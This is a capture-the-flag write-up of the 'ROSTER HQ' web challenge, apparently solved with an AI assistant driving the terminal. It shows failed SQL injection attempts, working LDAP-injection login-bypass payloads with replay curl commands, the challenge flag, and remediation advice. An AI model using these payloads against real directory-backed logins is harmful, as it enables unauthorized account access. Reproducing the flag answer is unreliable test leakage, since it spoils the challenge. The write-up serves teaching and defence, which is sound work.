

# ROSTER HQ, LDAP Injection Auth Bypass, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | ROSTER HQ ("esports team" / player directory web app) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8070 (EC2 instance) |
| **IP:Port** | `54.72.82.22:8070` |
| **Flag format** | `safctf{...}` |
| **Author** | lacmyst |
| **Date** | 2026-10-02 |
| **Outcome** | Bypassed the login with **LDAP injection**, landed in the authenticated directory, and read the flag off the team-report page. |
| **Honesty note** | This one I worked hands-on with Claude driving the terminal from my starting hypothesis. The narrative below is the *real* exploration order, assist and all, not a tidied-up version. |

---

## 1. The Short Version

My preliminary read of this box was: **"directory discovery with a bit of injection, I need to *gain access* to something."** That turned out to be exactly the shape of it, just with a twist on the "injection" part.

The site (`ROSTER HQ`) redirects `/` → `/connect`, which is a plain **username/password login**. The scenario text says *"Manage your player identity and explore the team **operations directory**,"* and a wrong login throws *"Log in to **Directory** Failed."* I went in expecting **SQL injection** on the login, the classic `' OR '1'='1' -- ` auth bypass, but every SQL payload just failed. The tell I'd missed was the repeated word **"Directory"**: this wasn't a SQL database behind the login, it was an **LDAP directory service**. Swapping to **LDAP injection** payloads (`admin)(&)`, `*)(uid=*))(|(uid=*`) broke the login filter open and logged me in as **admin**.

Once authenticated, my "directory discovery" instinct paid off: the logged-in area exposed a few routes, `/config-update`, `/audit-export`, `/logout`. The **`/audit-export`** ("team report") page just *handed over the flag*, and it's `403` without a valid session, so the LDAP bypass was genuinely the key that unlocked it.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{ef30111b835006ade7f00a9a4526d453}` | LDAP injection auth-bypass → authenticated `/audit-export` |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Login builds an LDAP search filter from raw username input | **LDAP Injection** (CWE-90) | `/connect` → `username` | Critical (auth bypass) |
| 2 | Password-length check runs before auth but doesn't stop filter-breakout in username | Incomplete input validation | `/connect` → `password` gate | Low (speed bump) |
| 3 | Protected report readable with any authenticated session | Broken Access Control (the flag has no further gate) | `/audit-export` | Medium |

The one real door was **#1**, LDAP injection in the username turns "log in as a valid user with the right password" into "match any entry, no password needed."

---

## 3. Recon & My First (Wrong) Theory

### 3.1 Map the entry point
```bash
$ curl -i http://54.72.82.22:8070
HTTP/1.1 302 FOUND
Location: /connect
Vary: Cookie
```
`/` bounces to **`/connect`**, a username/password form (`method=post`). `Vary: Cookie` + Flask = **session-based auth**. The masthead reads **ROSTER HQ**, an esports-team directory; the scenario line nudges *"explore the team operations directory."*

### 3.2 Baseline the login
```bash
$ curl -s -X POST .../connect -d "username=test&password=test"
...<p style='color:red;'>Log in to Directory Failed</p>...
```
Good, I have a clear **failure oracle** ("Log in to Directory Failed") to compare against.

### 3.3 My assumption: SQL injection
A login form screams SQLi, so I threw the standard auth-bypass set at the `username`:
```
' OR '1'='1' -- -     ' OR 1=1 -- -     admin' -- -     x' UNION SELECT 1 -- -
```
**All of them returned "Failed."** No error leak, no bypass. Either the query was parameterised... or it wasn't SQL at all.

---

## 4. Two Clues That Redirected Me

### 4.1 The password-length gate (why my first tests were invalid)
Testing payloads, I noticed a *different* error for short passwords:
```
password "x"    → "Password length not acceptable"
password "test" → "Log in to Directory Failed"
```
So there's a **minimum password length of 4**, checked *before* the login logic. My earlier SQLi tries had used `password=x`, they were rejected at the length gate and **never reached the query.** Important lesson: *a failed injection can be a delivery problem, not a theory problem.* I re-ran with a valid-length password... and SQLi still failed. So SQL was genuinely out.

### 4.2 The word "Directory"
Re-reading the responses, one word kept recurring: ***Directory***. *"Log in to **Directory** Failed."* *"team operations **directory**."* In app-sec, "directory" + "login" points at a **directory service**, i.e. **LDAP** (the protocol behind Active Directory and OpenLDAP). The login wasn't checking a SQL table; it was **searching an LDAP tree.** That reframes the whole injection: not SQL syntax, but **LDAP filter syntax.**

---

## 5. LDAP Injection, Breaking the Login Filter

LDAP logins usually build a **search filter** like:
```
(&(uid=<username>)(userPassword=<password>))
```
If the username isn't escaped, I can inject LDAP filter metacharacters, `(`, `)`, `*`, `&`, `|`, to rewrite that filter so it matches *regardless of the password.* I tried a spread of classic payloads (with a valid-length password):

```bash
test_login '*)(uid=*))(|(uid=*' 'aaaa'   # → 302 Redirect  ✅
test_login '*)(|(uid=*))'       'aaaa'   # → 302 Redirect  ✅
test_login 'admin)(&)'          'aaaa'   # → 302 Redirect  ✅
test_login '*'                  'aaaa'   # → Failed
test_login '*)(cn=*'            'aaaa'   # → Failed
```
A **302 redirect** instead of the "Failed" page = **login succeeded.** The winners break the filter open (details in the masterclass guide), the clearest being `admin)(&)` → the injected `(&)` is LDAP's "always true," so the filter matches the admin entry with no password check.

---

## 6. Landing in the Directory

I replayed the working payload keeping the cookie, and followed the redirect:
```bash
$ curl -s -i -c cookie.jar -X POST .../connect \
    --data-urlencode 'username=admin)(&)' --data-urlencode 'password=aaaa'
HTTP/1.1 302 FOUND
Location: /
Set-Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.<sig>; HttpOnly; Path=/
```
The session cookie is a **Flask signed session**; its first segment base64-decodes to:
```
{"username":"admin"}
```
So the bypass logged me in *as admin*. The authenticated homepage then revealed the "directory" my hypothesis predicted:
```html
<h2>Welcome, admin</h2>
<a href="/config-update">Edit player profile</a>
<a href="/audit-export">Open team report</a>
<a href="/logout">Logout</a>
```

---

## 7. The Flag

`/audit-export` ("team report") simply contained it:
```bash
$ curl -s -b cookie.jar .../audit-export | grep -oE 'safctf\{[^}]*\}'
safctf{ef30111b835006ade7f00a9a4526d453}

# and without a session it's locked:
$ curl -s -o /dev/null -w '%{http_code}\n' .../audit-export
403
```

> **Flag:** `safctf{ef30111b835006ade7f00a9a4526d453}`

The `403`-without-cookie confirms the LDAP bypass was the actual key, the flag lives behind the authentication I broke.

(There's an unused branch, `/config-update`, "Update Your Access ID", a `new_username` field, that I didn't need. It's either a red herring or an alternate privilege-change path.)

---

## 8. Why It Worked & How I'd Fix It

**LDAP injection (weakness 1).**
- *Cause:* the username is concatenated straight into an LDAP search filter, so filter metacharacters (`)(*&|`) let me rewrite the query's logic.
- *Fix:* **escape every untrusted value** that goes into a filter per RFC 4515 (`(`→`\28`, `)`→`\29`, `*`→`\2a`, `\`→`\5c`, NUL→`\00`), most LDAP libraries ship an `escape_filter_chars()` helper. Better: **bind as the user** (attempt an LDAP *bind* with their DN + password) rather than searching for a password match, so a filter can't substitute for the password check.

**The password-length gate (weakness 2).** It looked like validation but only constrained *length*, not *content*, a `)(*&|`-laden username of length-independent form sailed through. *Fix:* validate the *characters/shape* of inputs, not just their size, and never treat a length check as injection protection.

**Broken access control (weakness 3).** Any authenticated session reads `/audit-export`. *Fix:* enforce real authorization on sensitive reports, not just "is logged in."

---

## 9. Timeline

- `/` → 302 → `/connect` login; `Vary: Cookie` → session auth.
- Baselined wrong creds → "Log in to Directory Failed" (failure oracle).
- **Assumed SQLi**, tried the standard auth-bypass set → all failed.
- Spotted the **password-length gate (min 4)** → realised early SQLi tests were rejected before the query; re-tested with valid length → SQLi still dead.
- Noticed the recurring word **"Directory"** → pivoted to **LDAP injection**.
- `admin)(&)` / `*)(uid=*))(|(uid=*` (valid-length pw) → **302 success**, session `{"username":"admin"}`.
- Authenticated directory → `/config-update`, `/audit-export`, `/logout`.
- `GET /audit-export` with the session → **flag**; `403` without it.

---

## 10. References

- LDAP search filters, **RFC 4515** (filter syntax + the escaping rules)
- OWASP: **LDAP Injection** Prevention Cheat Sheet
- CWE-90 (LDAP Injection), CWE-284 (Improper Access Control)
- Flask sessions, client-side signed cookies (`flask-unsign` for decode/forge research)
- `curl`, `-c`/`-b` cookie jar, `--data-urlencode`, `-L` follow redirects

---

## 11. Appendix, The Clean Path

```bash
T=http://54.72.82.22:8070

# 1) log in via LDAP injection (username breaks the filter; password just needs len>=4)
curl -s -i -c cookie.jar -X POST $T/connect \
  --data-urlencode 'username=admin)(&)' --data-urlencode 'password=aaaa' | grep -i location
#    → 302 Location: /   (success; session cookie {"username":"admin"})

# 2) read the protected report
curl -s -b cookie.jar $T/audit-export | grep -oE 'safctf\{[^}]*\}'
#    → safctf{ef30111b835006ade7f00a9a4526d453}
```
Two lessons I'm keeping: **"Directory" in a login flow means think LDAP, not SQL**; and **a validation error ("password too short") can silently invalidate your injection tests**, make your payload actually *reach* the vulnerable code before concluding it's not vulnerable.
